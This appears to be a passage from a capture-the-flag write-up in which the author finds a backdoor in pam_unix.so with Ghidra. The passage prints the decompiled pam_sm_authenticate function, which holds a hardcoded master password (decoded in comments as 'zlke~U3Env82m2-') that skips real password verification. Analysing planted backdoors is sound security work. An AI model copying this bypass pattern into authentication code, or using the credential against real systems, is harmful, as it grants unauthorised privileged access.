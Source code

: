 Researching this binary [here](https://man7.org/linux/man-pages/man3/pam.3.html) and getting a hint from the awesome forums, led me to [this](https://man7.org/linux/man-pages/man3/pam_sm_authenticate.3.html) function which is used during the authentication process while using `su` binary. I used [ghidra](https://ghidra-sre.org/) when analyzing `pam_unix.so` and read the decompiled C code of the function `pam_sm_authenticate`

```C++

/* WARNING: Could not reconcile some variable overlaps */

int pam_sm_authenticate(pam_handle_t *pamh,int flags,int argc,char **argv)

{
  ulong uVar1;
  uint ctrl;
  int iVar2;
  int iVar3;
  char *prompt1;
  int *__ptr;
  uint uVar4;
  long in_FS_OFFSET;
  char *name;
  void *p;
  char backdoor [15];
  byte local_40;
  
  uVar1 = *(ulong *)(in_FS_OFFSET + 0x28);
  local_40 = (byte)uVar1;
  ctrl = _set_ctrl(pamh,flags,(int *)0x0,(int *)0x0,(int *)0x0,argc,argv);
  uVar4 = ctrl & 0x40000;
  if (uVar4 == 0) {
    __ptr = (int *)0x0;
  }
  else {
    __ptr = (int *)malloc(4);
  }
  iVar2 = pam_get_user(pamh,&name,0);
  if (iVar2 == 0) {
    if ((name != (char *)0x0) && ((*name - 0x2bU & 0xfd) != 0)) {
      iVar3 = _unix_blankpasswd(pamh,ctrl,name);
      if (iVar3 == 0) {
        prompt1 = (char *)dcgettext("Linux-PAM","Password: ",5);
        iVar2 = _unix_read_password(pamh,ctrl,(char *)0x0,prompt1,(char *)0x0,"-UN*X-PASS",&p);
        if (iVar2 == 0) {
          backdoor._0_8_ = 0x4533557e656b6c7a; //little endian: zlke~U3E
          backdoor._8_7_ = 0x2d326d3238766e; //little endian: nv82m2-
          local_40 = 0;
          iVar2 = strcmp((char *)p,backdoor);
          if (iVar2 != 0) {
            iVar2 = _unix_verify_password(pamh,name,(char *)p,ctrl);
          }
          p = (void *)0x0;
        }
        else {
          if (iVar2 == 0x1e) {
            iVar2 = 0x1f;
          }
          else {
            pam_syslog(pamh,2,"auth could not identify password for [%s]",name);
          }
        }
        name = (char *)0x0;
        if (uVar4 != 0) goto LAB_00103100;
      }
```